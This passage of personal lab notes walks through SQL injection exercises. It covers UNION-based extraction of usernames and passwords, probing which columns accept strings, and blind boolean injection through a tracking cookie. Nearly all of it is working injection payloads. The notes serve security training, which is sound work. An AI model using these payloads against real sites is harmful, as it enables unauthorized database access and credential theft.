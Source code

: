 ```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

```
' UNION SELECT username, password FROM users--
```


## **9. SQL injection UNION attack, retrieving multiple values in a single column**
```
' UNION SELECT 'a',null--   ERROR 500 (first position is not string based)
```

```
' UNION SELECT null,'a'--   ERROR 200 (so only the second one is)
```

In order to retrieve data we need to do that only on the second position using a concatenation method:
		![[Pasted image 20240627154432.png]]
```
(...)

' UNION SELECT null, username|| '-' ||password FROM users--
```

			![[Pasted image 20240627154411.png]]
			


## **10. Blind SQL injection with conditional responses(MYSQL)**
We will perform injection based on the session cookie (response = welcome back message)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

Blind testing using boolean conditioning
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--
```

Blind testing for users table
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users LIMIT 1)='a'--
```

Testing for username row value = administrator
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--
```
